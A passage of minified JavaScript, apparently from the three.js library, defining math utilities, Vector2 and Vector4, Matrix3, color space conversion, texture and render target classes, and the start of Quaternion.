e\",\"ef\",\"f0\",\"f1\",\"f2\",\"f3\",\"f4\",\"f5\",\"f6\",\"f7\",\"f8\",\"f9\",\"fa\",\"fb\",\"fc\",\"fd\",\"fe\",\"ff\"];let le=1234567;const ce=Math.PI/180,he=180/Math.PI;function ue(){const t=4294967295*Math.random()|0,e=4294967295*Math.random()|0,n=4294967295*Math.random()|0,i=4294967295*Math.random()|0;return(se[255&t]+se[t>>8&255]+se[t>>16&255]+se[t>>24&255]+\"-\"+se[255&e]+se[e>>8&255]+\"-\"+se[e>>16&15|64]+se[e>>24&255]+\"-\"+se[63&n|128]+se[n>>8&255]+\"-\"+se[n>>16&255]+se[n>>24&255]+se[255&i]+se[i>>8&255]+se[i>>16&255]+se[i>>24&255]).toLowerCase()}function de(t,e,n){return Math.max(e,Math.min(n,t))}function pe(t,e){return(t%e+e)%e}function fe(t,e,n){return(1-n)*t+n*e}function me(t,e){switch(e.constructor){case Float32Array:return t;case Uint32Array:return t/4294967295;case Uint16Array:return t/65535;case Uint8Array:return t/255;case Int32Array:return Math.max(t/2147483647,-1);case Int16Array:return Math.max(t/32767,-1);case Int8Array:return Math.max(t/127,-1);default:throw new Error(\"Invalid component type.\")}}function ge(t,e){switch(e.constructor){case Float32Array:return t;case Uint32Array:return Math.round(4294967295*t);case Uint16Array:return Math.round(65535*t);case Uint8Array:return Math.round(255*t);case Int32Array:return Math.round(2147483647*t);case Int16Array:return Math.round(32767*t);case Int8Array:return Math.round(127*t);default:throw new Error(\"Invalid component type.\")}}const _e={DEG2RAD:ce,RAD2DEG:he,generateUUID:ue,clamp:de,euclideanModulo:pe,mapLinear:function(t,e,n,i,r){return i+(t-e)*(r-i)/(n-e)},inverseLerp:function(t,e,n){return t!==e?(n-t)/(e-t):0},lerp:fe,damp:function(t,e,n,i){return fe(t,e,1-Math.exp(-n*i))},pingpong:function(t,e=1){return e-Math.abs(pe(t,2*e)-e)},smoothstep:function(t,e,n){return t<=e?0:t>=n?1:(t=(t-e)/(n-e))*t*(3-2*t)},smootherstep:function(t,e,n){return t<=e?0:t>=n?1:(t=(t-e)/(n-e))*t*t*(t*(6*t-15)+10)},randInt:function(t,e){return t+Math.floor(Math.random()*(e-t+1))},randFloat:function(t,e){return t+Math.random()*(e-t)},randFloatSpread:function(t){return t*(.5-Math.random())},seededRandom:function(t){void 0!==t&&(le=t);let e=le+=1831565813;return e=Math.imul(e^e>>>15,1|e),e^=e+Math.imul(e^e>>>7,61|e),((e^e>>>14)>>>0)/4294967296},degToRad:function(t){return t*ce},radToDeg:function(t){return t*he},isPowerOfTwo:function(t){return!(t&t-1)&&0!==t},ceilPowerOfTwo:function(t){return Math.pow(2,Math.ceil(Math.log(t)/Math.LN2))},floorPowerOfTwo:function(t){return Math.pow(2,Math.floor(Math.log(t)/Math.LN2))},setQuaternionFromProperEuler:function(t,e,n,i,r){const a=Math.cos,o=Math.sin,s=a(n/2),l=o(n/2),c=a((e+i)/2),h=o((e+i)/2),u=a((e-i)/2),d=o((e-i)/2),p=a((i-e)/2),f=o((i-e)/2);switch(r){case\"XYX\":t.set(s*h,l*u,l*d,s*c);break;case\"YZY\":t.set(l*d,s*h,l*u,s*c);break;case\"ZXZ\":t.set(l*u,l*d,s*h,s*c);break;case\"XZX\":t.set(s*h,l*f,l*p,s*c);break;case\"YXY\":t.set(l*p,s*h,l*f,s*c);break;case\"ZYZ\":t.set(l*f,l*p,s*h,s*c);break;default:console.warn(\"THREE.MathUtils: .setQuaternionFromProperEuler() encountered an unknown order: \"+r)}},normalize:ge,denormalize:me};class ve{constructor(t=0,e=0){ve.prototype.isVector2=!0,this.x=t,this.y=e}get width(){return this.x}set width(t){this.x=t}get height(){return this.y}set height(t){this.y=t}set(t,e){return this.x=t,this.y=e,this}setScalar(t){return this.x=t,this.y=t,this}setX(t){return this.x=t,this}setY(t){return this.y=t,this}setComponent(t,e){switch(t){case 0:this.x=e;break;case 1:this.y=e;break;default:throw new Error(\"index is out of range: \"+t)}return this}getComponent(t){switch(t){case 0:return this.x;case 1:return this.y;default:throw new Error(\"index is out of range: \"+t)}}clone(){return new this.constructor(this.x,this.y)}copy(t){return this.x=t.x,this.y=t.y,this}add(t){return this.x+=t.x,this.y+=t.y,this}addScalar(t){return this.x+=t,this.y+=t,this}addVectors(t,e){return this.x=t.x+e.x,this.y=t.y+e.y,this}addScaledVector(t,e){return this.x+=t.x*e,this.y+=t.y*e,this}sub(t){return this.x-=t.x,this.y-=t.y,this}subScalar(t){return this.x-=t,this.y-=t,this}subVectors(t,e){return this.x=t.x-e.x,this.y=t.y-e.y,this}multiply(t){return this.x*=t.x,this.y*=t.y,this}multiplyScalar(t){return this.x*=t,this.y*=t,this}divide(t){return this.x/=t.x,this.y/=t.y,this}divideScalar(t){return this.multiplyScalar(1/t)}applyMatrix3(t){const e=this.x,n=this.y,i=t.elements;return this.x=i[0]*e+i[3]*n+i[6],this.y=i[1]*e+i[4]*n+i[7],this}min(t){return this.x=Math.min(this.x,t.x),this.y=Math.min(this.y,t.y),this}max(t){return this.x=Math.max(this.x,t.x),this.y=Math.max(this.y,t.y),this}clamp(t,e){return this.x=Math.max(t.x,Math.min(e.x,this.x)),this.y=Math.max(t.y,Math.min(e.y,this.y)),this}clampScalar(t,e){return this.x=Math.max(t,Math.min(e,this.x)),this.y=Math.max(t,Math.min(e,this.y)),this}clampLength(t,e){const n=this.length();return this.divideScalar(n||1).multiplyScalar(Math.max(t,Math.min(e,n)))}floor(){return this.x=Math.floor(this.x),this.y=Math.floor(this.y),this}ceil(){return this.x=Math.ceil(this.x),this.y=Math.ceil(this.y),this}round(){return this.x=Math.round(this.x),this.y=Math.round(this.y),this}roundToZero(){return this.x=Math.trunc(this.x),this.y=Math.trunc(this.y),this}negate(){return this.x=-this.x,this.y=-this.y,this}dot(t){return this.x*t.x+this.y*t.y}cross(t){return this.x*t.y-this.y*t.x}lengthSq(){return this.x*this.x+this.y*this.y}length(){return Math.sqrt(this.x*this.x+this.y*this.y)}manhattanLength(){return Math.abs(this.x)+Math.abs(this.y)}normalize(){return this.divideScalar(this.length()||1)}angle(){return Math.atan2(-this.y,-this.x)+Math.PI}angleTo(t){const e=Math.sqrt(this.lengthSq()*t.lengthSq());if(0===e)return Math.PI/2;const n=this.dot(t)/e;return Math.acos(de(n,-1,1))}distanceTo(t){return Math.sqrt(this.distanceToSquared(t))}distanceToSquared(t){const e=this.x-t.x,n=this.y-t.y;return e*e+n*n}manhattanDistanceTo(t){return Math.abs(this.x-t.x)+Math.abs(this.y-t.y)}setLength(t){return this.normalize().multiplyScalar(t)}lerp(t,e){return this.x+=(t.x-this.x)*e,this.y+=(t.y-this.y)*e,this}lerpVectors(t,e,n){return this.x=t.x+(e.x-t.x)*n,this.y=t.y+(e.y-t.y)*n,this}equals(t){return t.x===this.x&&t.y===this.y}fromArray(t,e=0){return this.x=t[e],this.y=t[e+1],this}toArray(t=[],e=0){return t[e]=this.x,t[e+1]=this.y,t}fromBufferAttribute(t,e){return this.x=t.getX(e),this.y=t.getY(e),this}rotateAround(t,e){const n=Math.cos(e),i=Math.sin(e),r=this.x-t.x,a=this.y-t.y;return this.x=r*n-a*i+t.x,this.y=r*i+a*n+t.y,this}random(){return this.x=Math.random(),this.y=Math.random(),this}*[Symbol.iterator](){yield this.x,yield this.y}}class ye{constructor(t,e,n,i,r,a,o,s,l){ye.prototype.isMatrix3=!0,this.elements=[1,0,0,0,1,0,0,0,1],void 0!==t&&this.set(t,e,n,i,r,a,o,s,l)}set(t,e,n,i,r,a,o,s,l){const c=this.elements;return c[0]=t,c[1]=i,c[2]=o,c[3]=e,c[4]=r,c[5]=s,c[6]=n,c[7]=a,c[8]=l,this}identity(){return this.set(1,0,0,0,1,0,0,0,1),this}copy(t){const e=this.elements,n=t.elements;return e[0]=n[0],e[1]=n[1],e[2]=n[2],e[3]=n[3],e[4]=n[4],e[5]=n[5],e[6]=n[6],e[7]=n[7],e[8]=n[8],this}extractBasis(t,e,n){return t.setFromMatrix3Column(this,0),e.setFromMatrix3Column(this,1),n.setFromMatrix3Column(this,2),this}setFromMatrix4(t){const e=t.elements;return this.set(e[0],e[4],e[8],e[1],e[5],e[9],e[2],e[6],e[10]),this}multiply(t){return this.multiplyMatrices(this,t)}premultiply(t){return this.multiplyMatrices(t,this)}multiplyMatrices(t,e){const n=t.elements,i=e.elements,r=this.elements,a=n[0],o=n[3],s=n[6],l=n[1],c=n[4],h=n[7],u=n[2],d=n[5],p=n[8],f=i[0],m=i[3],g=i[6],_=i[1],v=i[4],y=i[7],x=i[2],b=i[5],M=i[8];return r[0]=a*f+o*_+s*x,r[3]=a*m+o*v+s*b,r[6]=a*g+o*y+s*M,r[1]=l*f+c*_+h*x,r[4]=l*m+c*v+h*b,r[7]=l*g+c*y+h*M,r[2]=u*f+d*_+p*x,r[5]=u*m+d*v+p*b,r[8]=u*g+d*y+p*M,this}multiplyScalar(t){const e=this.elements;return e[0]*=t,e[3]*=t,e[6]*=t,e[1]*=t,e[4]*=t,e[7]*=t,e[2]*=t,e[5]*=t,e[8]*=t,this}determinant(){const t=this.elements,e=t[0],n=t[1],i=t[2],r=t[3],a=t[4],o=t[5],s=t[6],l=t[7],c=t[8];return e*a*c-e*o*l-n*r*c+n*o*s+i*r*l-i*a*s}invert(){const t=this.elements,e=t[0],n=t[1],i=t[2],r=t[3],a=t[4],o=t[5],s=t[6],l=t[7],c=t[8],h=c*a-o*l,u=o*s-c*r,d=l*r-a*s,p=e*h+n*u+i*d;if(0===p)return this.set(0,0,0,0,0,0,0,0,0);const f=1/p;return t[0]=h*f,t[1]=(i*l-c*n)*f,t[2]=(o*n-i*a)*f,t[3]=u*f,t[4]=(c*e-i*s)*f,t[5]=(i*r-o*e)*f,t[6]=d*f,t[7]=(n*s-l*e)*f,t[8]=(a*e-n*r)*f,this}transpose(){let t;const e=this.elements;return t=e[1],e[1]=e[3],e[3]=t,t=e[2],e[2]=e[6],e[6]=t,t=e[5],e[5]=e[7],e[7]=t,this}getNormalMatrix(t){return this.setFromMatrix4(t).invert().transpose()}transposeIntoArray(t){const e=this.elements;return t[0]=e[0],t[1]=e[3],t[2]=e[6],t[3]=e[1],t[4]=e[4],t[5]=e[7],t[6]=e[2],t[7]=e[5],t[8]=e[8],this}setUvTransform(t,e,n,i,r,a,o){const s=Math.cos(r),l=Math.sin(r);return this.set(n*s,n*l,-n*(s*a+l*o)+a+t,-i*l,i*s,-i*(-l*a+s*o)+o+e,0,0,1),this}scale(t,e){return this.premultiply(xe.makeScale(t,e)),this}rotate(t){return this.premultiply(xe.makeRotation(-t)),this}translate(t,e){return this.premultiply(xe.makeTranslation(t,e)),this}makeTranslation(t,e){return t.isVector2?this.set(1,0,t.x,0,1,t.y,0,0,1):this.set(1,0,t,0,1,e,0,0,1),this}makeRotation(t){const e=Math.cos(t),n=Math.sin(t);return this.set(e,-n,0,n,e,0,0,0,1),this}makeScale(t,e){return this.set(t,0,0,0,e,0,0,0,1),this}equals(t){const e=this.elements,n=t.elements;for(let t=0;t<9;t++)if(e[t]!==n[t])return!1;return!0}fromArray(t,e=0){for(let n=0;n<9;n++)this.elements[n]=t[n+e];return this}toArray(t=[],e=0){const n=this.elements;return t[e]=n[0],t[e+1]=n[1],t[e+2]=n[2],t[e+3]=n[3],t[e+4]=n[4],t[e+5]=n[5],t[e+6]=n[6],t[e+7]=n[7],t[e+8]=n[8],t}clone(){return(new this.constructor).fromArray(this.elements)}}const xe=new ye;function be(t){for(let e=t.length-1;e>=0;--e)if(t[e]>=65535)return!0;return!1}function Me(t){return document.createElementNS(\"http://www.w3.org/1999/xhtml\",t)}function Se(){const t=Me(\"canvas\");return t.style.display=\"block\",t}const Ee={};function we(t){t in Ee||(Ee[t]=!0,console.warn(t))}const Te=(new ye).set(.8224621,.177538,0,.0331941,.9668058,0,.0170827,.0723974,.9105199),Ae=(new ye).set(1.2249401,-.2249404,0,-.0420569,1.0420571,0,-.0196376,-.0786361,1.0982735),Ce={[Ht]:{transfer:jt,primaries:Xt,luminanceCoefficients:[.2126,.7152,.0722],toReference:t=>t,fromReference:t=>t},[Bt]:{transfer:Wt,primaries:Xt,luminanceCoefficients:[.2126,.7152,.0722],toReference:t=>t.convertSRGBToLinear(),fromReference:t=>t.convertLinearToSRGB()},[Gt]:{transfer:jt,primaries:qt,luminanceCoefficients:[.2289,.6917,.0793],toReference:t=>t.applyMatrix3(Ae),fromReference:t=>t.applyMatrix3(Te)},[Vt]:{transfer:Wt,primaries:qt,luminanceCoefficients:[.2289,.6917,.0793],toReference:t=>t.convertSRGBToLinear().applyMatrix3(Ae),fromReference:t=>t.applyMatrix3(Te).convertLinearToSRGB()}},Re=new Set([Ht,Gt]),Pe={enabled:!0,_workingColorSpace:Ht,get workingColorSpace(){return this._workingColorSpace},set workingColorSpace(t){if(!Re.has(t))throw new Error(`Unsupported working color space, \"${t}\".`);this._workingColorSpace=t},convert:function(t,e,n){if(!1===this.enabled||e===n||!e||!n)return t;const i=Ce[e].toReference;return(0,Ce[n].fromReference)(i(t))},fromWorkingColorSpace:function(t,e){return this.convert(t,this._workingColorSpace,e)},toWorkingColorSpace:function(t,e){return this.convert(t,e,this._workingColorSpace)},getPrimaries:function(t){return Ce[t].primaries},getTransfer:function(t){return t===zt?jt:Ce[t].transfer},getLuminanceCoefficients:function(t,e=this._workingColorSpace){return t.fromArray(Ce[e].luminanceCoefficients)}};function Le(t){return t<.04045?.0773993808*t:Math.pow(.9478672986*t+.0521327014,2.4)}function De(t){return t<.0031308?12.92*t:1.055*Math.pow(t,.41666)-.055}let Ie;class Oe{static getDataURL(t){if(/^data:/i.test(t.src))return t.src;if(\"undefined\"==typeof HTMLCanvasElement)return t.src;let e;if(t instanceof HTMLCanvasElement)e=t;else{void 0===Ie&&(Ie=Me(\"canvas\")),Ie.width=t.width,Ie.height=t.height;const n=Ie.getContext(\"2d\");t instanceof ImageData?n.putImageData(t,0,0):n.drawImage(t,0,0,t.width,t.height),e=Ie}return e.width>2048||e.height>2048?(console.warn(\"THREE.ImageUtils.getDataURL: Image converted to jpg for performance reasons\",t),e.toDataURL(\"image/jpeg\",.6)):e.toDataURL(\"image/png\")}static sRGBToLinear(t){if(\"undefined\"!=typeof HTMLImageElement&&t instanceof HTMLImageElement||\"undefined\"!=typeof HTMLCanvasElement&&t instanceof HTMLCanvasElement||\"undefined\"!=typeof ImageBitmap&&t instanceof ImageBitmap){const e=Me(\"canvas\");e.width=t.width,e.height=t.height;const n=e.getContext(\"2d\");n.drawImage(t,0,0,t.width,t.height);const i=n.getImageData(0,0,t.width,t.height),r=i.data;for(let t=0;t<r.length;t++)r[t]=255*Le(r[t]/255);return n.putImageData(i,0,0),e}if(t.data){const e=t.data.slice(0);for(let t=0;t<e.length;t++)e instanceof Uint8Array||e instanceof Uint8ClampedArray?e[t]=Math.floor(255*Le(e[t]/255)):e[t]=Le(e[t]);return{data:e,width:t.width,height:t.height}}return console.warn(\"THREE.ImageUtils.sRGBToLinear(): Unsupported image type. No color space conversion applied.\"),t}}let Ue=0;class Ne{constructor(t=null){this.isSource=!0,Object.defineProperty(this,\"id\",{value:Ue++}),this.uuid=ue(),this.data=t,this.dataReady=!0,this.version=0}set needsUpdate(t){!0===t&&this.version++}toJSON(t){const e=void 0===t||\"string\"==typeof t;if(!e&&void 0!==t.images[this.uuid])return t.images[this.uuid];const n={uuid:this.uuid,url:\"\"},i=this.data;if(null!==i){let t;if(Array.isArray(i)){t=[];for(let e=0,n=i.length;e<n;e++)i[e].isDataTexture?t.push(Fe(i[e].image)):t.push(Fe(i[e]))}else t=Fe(i);n.url=t}return e||(t.images[this.uuid]=n),n}}function Fe(t){return\"undefined\"!=typeof HTMLImageElement&&t instanceof HTMLImageElement||\"undefined\"!=typeof HTMLCanvasElement&&t instanceof HTMLCanvasElement||\"undefined\"!=typeof ImageBitmap&&t instanceof ImageBitmap?Oe.getDataURL(t):t.data?{data:Array.from(t.data),width:t.width,height:t.height,type:t.data.constructor.name}:(console.warn(\"THREE.Texture: Unable to serialize Texture.\"),{})}let ke=0;class ze extends oe{constructor(t=ze.DEFAULT_IMAGE,e=ze.DEFAULT_MAPPING,n=1001,i=1001,r=1006,a=1008,o=1023,s=1009,l=ze.DEFAULT_ANISOTROPY,c=\"\"){super(),this.isTexture=!0,Object.defineProperty(this,\"id\",{value:ke++}),this.uuid=ue(),this.name=\"\",this.source=new Ne(t),this.mipmaps=[],this.mapping=e,this.channel=0,this.wrapS=n,this.wrapT=i,this.magFilter=r,this.minFilter=a,this.anisotropy=l,this.format=o,this.internalFormat=null,this.type=s,this.offset=new ve(0,0),this.repeat=new ve(1,1),this.center=new ve(0,0),this.rotation=0,this.matrixAutoUpdate=!0,this.matrix=new ye,this.generateMipmaps=!0,this.premultiplyAlpha=!1,this.flipY=!0,this.unpackAlignment=4,this.colorSpace=c,this.userData={},this.version=0,this.onUpdate=null,this.isRenderTargetTexture=!1,this.pmremVersion=0}get image(){return this.source.data}set image(t=null){this.source.data=t}updateMatrix(){this.matrix.setUvTransform(this.offset.x,this.offset.y,this.repeat.x,this.repeat.y,this.rotation,this.center.x,this.center.y)}clone(){return(new this.constructor).copy(this)}copy(t){return this.name=t.name,this.source=t.source,this.mipmaps=t.mipmaps.slice(0),this.mapping=t.mapping,this.channel=t.channel,this.wrapS=t.wrapS,this.wrapT=t.wrapT,this.magFilter=t.magFilter,this.minFilter=t.minFilter,this.anisotropy=t.anisotropy,this.format=t.format,this.internalFormat=t.internalFormat,this.type=t.type,this.offset.copy(t.offset),this.repeat.copy(t.repeat),this.center.copy(t.center),this.rotation=t.rotation,this.matrixAutoUpdate=t.matrixAutoUpdate,this.matrix.copy(t.matrix),this.generateMipmaps=t.generateMipmaps,this.premultiplyAlpha=t.premultiplyAlpha,this.flipY=t.flipY,this.unpackAlignment=t.unpackAlignment,this.colorSpace=t.colorSpace,this.userData=JSON.parse(JSON.stringify(t.userData)),this.needsUpdate=!0,this}toJSON(t){const e=void 0===t||\"string\"==typeof t;if(!e&&void 0!==t.textures[this.uuid])return t.textures[this.uuid];const n={metadata:{version:4.6,type:\"Texture\",generator:\"Texture.toJSON\"},uuid:this.uuid,name:this.name,image:this.source.toJSON(t).uuid,mapping:this.mapping,channel:this.channel,repeat:[this.repeat.x,this.repeat.y],offset:[this.offset.x,this.offset.y],center:[this.center.x,this.center.y],rotation:this.rotation,wrap:[this.wrapS,this.wrapT],format:this.format,internalFormat:this.internalFormat,type:this.type,colorSpace:this.colorSpace,minFilter:this.minFilter,magFilter:this.magFilter,anisotropy:this.anisotropy,flipY:this.flipY,generateMipmaps:this.generateMipmaps,premultiplyAlpha:this.premultiplyAlpha,unpackAlignment:this.unpackAlignment};return Object.keys(this.userData).length>0&&(n.userData=this.userData),e||(t.textures[this.uuid]=n),n}dispose(){this.dispatchEvent({type:\"dispose\"})}transformUv(t){if(300!==this.mapping)return t;if(t.applyMatrix3(this.matrix),t.x<0||t.x>1)switch(this.wrapS){case U:t.x=t.x-Math.floor(t.x);break;case N:t.x=t.x<0?0:1;break;case F:1===Math.abs(Math.floor(t.x)%2)?t.x=Math.ceil(t.x)-t.x:t.x=t.x-Math.floor(t.x)}if(t.y<0||t.y>1)switch(this.wrapT){case U:t.y=t.y-Math.floor(t.y);break;case N:t.y=t.y<0?0:1;break;case F:1===Math.abs(Math.floor(t.y)%2)?t.y=Math.ceil(t.y)-t.y:t.y=t.y-Math.floor(t.y)}return this.flipY&&(t.y=1-t.y),t}set needsUpdate(t){!0===t&&(this.version++,this.source.needsUpdate=!0)}set needsPMREMUpdate(t){!0===t&&this.pmremVersion++}}ze.DEFAULT_IMAGE=null,ze.DEFAULT_MAPPING=300,ze.DEFAULT_ANISOTROPY=1;class Be{constructor(t=0,e=0,n=0,i=1){Be.prototype.isVector4=!0,this.x=t,this.y=e,this.z=n,this.w=i}get width(){return this.z}set width(t){this.z=t}get height(){return this.w}set height(t){this.w=t}set(t,e,n,i){return this.x=t,this.y=e,this.z=n,this.w=i,this}setScalar(t){return this.x=t,this.y=t,this.z=t,this.w=t,this}setX(t){return this.x=t,this}setY(t){return this.y=t,this}setZ(t){return this.z=t,this}setW(t){return this.w=t,this}setComponent(t,e){switch(t){case 0:this.x=e;break;case 1:this.y=e;break;case 2:this.z=e;break;case 3:this.w=e;break;default:throw new Error(\"index is out of range: \"+t)}return this}getComponent(t){switch(t){case 0:return this.x;case 1:return this.y;case 2:return this.z;case 3:return this.w;default:throw new Error(\"index is out of range: \"+t)}}clone(){return new this.constructor(this.x,this.y,this.z,this.w)}copy(t){return this.x=t.x,this.y=t.y,this.z=t.z,this.w=void 0!==t.w?t.w:1,this}add(t){return this.x+=t.x,this.y+=t.y,this.z+=t.z,this.w+=t.w,this}addScalar(t){return this.x+=t,this.y+=t,this.z+=t,this.w+=t,this}addVectors(t,e){return this.x=t.x+e.x,this.y=t.y+e.y,this.z=t.z+e.z,this.w=t.w+e.w,this}addScaledVector(t,e){return this.x+=t.x*e,this.y+=t.y*e,this.z+=t.z*e,this.w+=t.w*e,this}sub(t){return this.x-=t.x,this.y-=t.y,this.z-=t.z,this.w-=t.w,this}subScalar(t){return this.x-=t,this.y-=t,this.z-=t,this.w-=t,this}subVectors(t,e){return this.x=t.x-e.x,this.y=t.y-e.y,this.z=t.z-e.z,this.w=t.w-e.w,this}multiply(t){return this.x*=t.x,this.y*=t.y,this.z*=t.z,this.w*=t.w,this}multiplyScalar(t){return this.x*=t,this.y*=t,this.z*=t,this.w*=t,this}applyMatrix4(t){const e=this.x,n=this.y,i=this.z,r=this.w,a=t.elements;return this.x=a[0]*e+a[4]*n+a[8]*i+a[12]*r,this.y=a[1]*e+a[5]*n+a[9]*i+a[13]*r,this.z=a[2]*e+a[6]*n+a[10]*i+a[14]*r,this.w=a[3]*e+a[7]*n+a[11]*i+a[15]*r,this}divideScalar(t){return this.multiplyScalar(1/t)}setAxisAngleFromQuaternion(t){this.w=2*Math.acos(t.w);const e=Math.sqrt(1-t.w*t.w);return e<1e-4?(this.x=1,this.y=0,this.z=0):(this.x=t.x/e,this.y=t.y/e,this.z=t.z/e),this}setAxisAngleFromRotationMatrix(t){let e,n,i,r;const a=.01,o=.1,s=t.elements,l=s[0],c=s[4],h=s[8],u=s[1],d=s[5],p=s[9],f=s[2],m=s[6],g=s[10];if(Math.abs(c-u)<a&&Math.abs(h-f)<a&&Math.abs(p-m)<a){if(Math.abs(c+u)<o&&Math.abs(h+f)<o&&Math.abs(p+m)<o&&Math.abs(l+d+g-3)<o)return this.set(1,0,0,0),this;e=Math.PI;const t=(l+1)/2,s=(d+1)/2,_=(g+1)/2,v=(c+u)/4,y=(h+f)/4,x=(p+m)/4;return t>s&&t>_?t<a?(n=0,i=.707106781,r=.707106781):(n=Math.sqrt(t),i=v/n,r=y/n):s>_?s<a?(n=.707106781,i=0,r=.707106781):(i=Math.sqrt(s),n=v/i,r=x/i):_<a?(n=.707106781,i=.707106781,r=0):(r=Math.sqrt(_),n=y/r,i=x/r),this.set(n,i,r,e),this}let _=Math.sqrt((m-p)*(m-p)+(h-f)*(h-f)+(u-c)*(u-c));return Math.abs(_)<.001&&(_=1),this.x=(m-p)/_,this.y=(h-f)/_,this.z=(u-c)/_,this.w=Math.acos((l+d+g-1)/2),this}setFromMatrixPosition(t){const e=t.elements;return this.x=e[12],this.y=e[13],this.z=e[14],this.w=e[15],this}min(t){return this.x=Math.min(this.x,t.x),this.y=Math.min(this.y,t.y),this.z=Math.min(this.z,t.z),this.w=Math.min(this.w,t.w),this}max(t){return this.x=Math.max(this.x,t.x),this.y=Math.max(this.y,t.y),this.z=Math.max(this.z,t.z),this.w=Math.max(this.w,t.w),this}clamp(t,e){return this.x=Math.max(t.x,Math.min(e.x,this.x)),this.y=Math.max(t.y,Math.min(e.y,this.y)),this.z=Math.max(t.z,Math.min(e.z,this.z)),this.w=Math.max(t.w,Math.min(e.w,this.w)),this}clampScalar(t,e){return this.x=Math.max(t,Math.min(e,this.x)),this.y=Math.max(t,Math.min(e,this.y)),this.z=Math.max(t,Math.min(e,this.z)),this.w=Math.max(t,Math.min(e,this.w)),this}clampLength(t,e){const n=this.length();return this.divideScalar(n||1).multiplyScalar(Math.max(t,Math.min(e,n)))}floor(){return this.x=Math.floor(this.x),this.y=Math.floor(this.y),this.z=Math.floor(this.z),this.w=Math.floor(this.w),this}ceil(){return this.x=Math.ceil(this.x),this.y=Math.ceil(this.y),this.z=Math.ceil(this.z),this.w=Math.ceil(this.w),this}round(){return this.x=Math.round(this.x),this.y=Math.round(this.y),this.z=Math.round(this.z),this.w=Math.round(this.w),this}roundToZero(){return this.x=Math.trunc(this.x),this.y=Math.trunc(this.y),this.z=Math.trunc(this.z),this.w=Math.trunc(this.w),this}negate(){return this.x=-this.x,this.y=-this.y,this.z=-this.z,this.w=-this.w,this}dot(t){return this.x*t.x+this.y*t.y+this.z*t.z+this.w*t.w}lengthSq(){return this.x*this.x+this.y*this.y+this.z*this.z+this.w*this.w}length(){return Math.sqrt(this.x*this.x+this.y*this.y+this.z*this.z+this.w*this.w)}manhattanLength(){return Math.abs(this.x)+Math.abs(this.y)+Math.abs(this.z)+Math.abs(this.w)}normalize(){return this.divideScalar(this.length()||1)}setLength(t){return this.normalize().multiplyScalar(t)}lerp(t,e){return this.x+=(t.x-this.x)*e,this.y+=(t.y-this.y)*e,this.z+=(t.z-this.z)*e,this.w+=(t.w-this.w)*e,this}lerpVectors(t,e,n){return this.x=t.x+(e.x-t.x)*n,this.y=t.y+(e.y-t.y)*n,this.z=t.z+(e.z-t.z)*n,this.w=t.w+(e.w-t.w)*n,this}equals(t){return t.x===this.x&&t.y===this.y&&t.z===this.z&&t.w===this.w}fromArray(t,e=0){return this.x=t[e],this.y=t[e+1],this.z=t[e+2],this.w=t[e+3],this}toArray(t=[],e=0){return t[e]=this.x,t[e+1]=this.y,t[e+2]=this.z,t[e+3]=this.w,t}fromBufferAttribute(t,e){return this.x=t.getX(e),this.y=t.getY(e),this.z=t.getZ(e),this.w=t.getW(e),this}random(){return this.x=Math.random(),this.y=Math.random(),this.z=Math.random(),this.w=Math.random(),this}*[Symbol.iterator](){yield this.x,yield this.y,yield this.z,yield this.w}}class He extends oe{constructor(t=1,e=1,n={}){super(),this.isRenderTarget=!0,this.width=t,this.height=e,this.depth=1,this.scissor=new Be(0,0,t,e),this.scissorTest=!1,this.viewport=new Be(0,0,t,e);const i={width:t,height:e,depth:1};n=Object.assign({generateMipmaps:!1,internalFormat:null,minFilter:H,depthBuffer:!0,stencilBuffer:!1,resolveDepthBuffer:!0,resolveStencilBuffer:!0,depthTexture:null,samples:0,count:1},n);const r=new ze(i,n.mapping,n.wrapS,n.wrapT,n.magFilter,n.minFilter,n.format,n.type,n.anisotropy,n.colorSpace);r.flipY=!1,r.generateMipmaps=n.generateMipmaps,r.internalFormat=n.internalFormat,this.textures=[];const a=n.count;for(let t=0;t<a;t++)this.textures[t]=r.clone(),this.textures[t].isRenderTargetTexture=!0;this.depthBuffer=n.depthBuffer,this.stencilBuffer=n.stencilBuffer,this.resolveDepthBuffer=n.resolveDepthBuffer,this.resolveStencilBuffer=n.resolveStencilBuffer,this.depthTexture=n.depthTexture,this.samples=n.samples}get texture(){return this.textures[0]}set texture(t){this.textures[0]=t}setSize(t,e,n=1){if(this.width!==t||this.height!==e||this.depth!==n){this.width=t,this.height=e,this.depth=n;for(let i=0,r=this.textures.length;i<r;i++)this.textures[i].image.width=t,this.textures[i].image.height=e,this.textures[i].image.depth=n;this.dispose()}this.viewport.set(0,0,t,e),this.scissor.set(0,0,t,e)}clone(){return(new this.constructor).copy(this)}copy(t){this.width=t.width,this.height=t.height,this.depth=t.depth,this.scissor.copy(t.scissor),this.scissorTest=t.scissorTest,this.viewport.copy(t.viewport),this.textures.length=0;for(let e=0,n=t.textures.length;e<n;e++)this.textures[e]=t.textures[e].clone(),this.textures[e].isRenderTargetTexture=!0;const e=Object.assign({},t.texture.image);return this.texture.source=new Ne(e),this.depthBuffer=t.depthBuffer,this.stencilBuffer=t.stencilBuffer,this.resolveDepthBuffer=t.resolveDepthBuffer,this.resolveStencilBuffer=t.resolveStencilBuffer,null!==t.depthTexture&&(this.depthTexture=t.depthTexture.clone()),this.samples=t.samples,this}dispose(){this.dispatchEvent({type:\"dispose\"})}}class Ve extends He{constructor(t=1,e=1,n={}){super(t,e,n),this.isWebGLRenderTarget=!0}}class Ge extends ze{constructor(t=null,e=1,n=1,i=1){super(null),this.isDataArrayTexture=!0,this.image={data:t,width:e,height:n,depth:i},this.magFilter=k,this.minFilter=k,this.wrapR=N,this.generateMipmaps=!1,this.flipY=!1,this.unpackAlignment=1,this.layerUpdates=new Set}addLayerUpdate(t){this.layerUpdates.add(t)}clearLayerUpdates(){this.layerUpdates.clear()}}class je extends ze{constructor(t=null,e=1,n=1,i=1){super(null),this.isData3DTexture=!0,this.image={data:t,width:e,height:n,depth:i},this.magFilter=k,this.minFilter=k,this.wrapR=N,this.generateMipmaps=!1,this.flipY=!1,this.unpackAlignment=1}}class We{constructor(t=0,e=0,n=0,i=1){this.isQuaternion=!0,this._x=t,this._y=e,this._z=n,this._w=i}static slerpFlat(t,e,n,i,r,a,o){let s=n[i+0],l=n[i+1],c=n[i+2],h=n[i+3];const u=r[a+0],d=r[a+1],p=r[a+2],f=r[a+3];if(0===o)return t[e+0]=s,t[e+1]=l,t[e+2]=c,void(t[e+3]=h);if(1===o)return t[e+0]=u,t[e+1]=d,t[e+2]=p,void(t[e+3]=f);if(h!==f||s!==u||l!==d||c!==p){let t=1-o;const 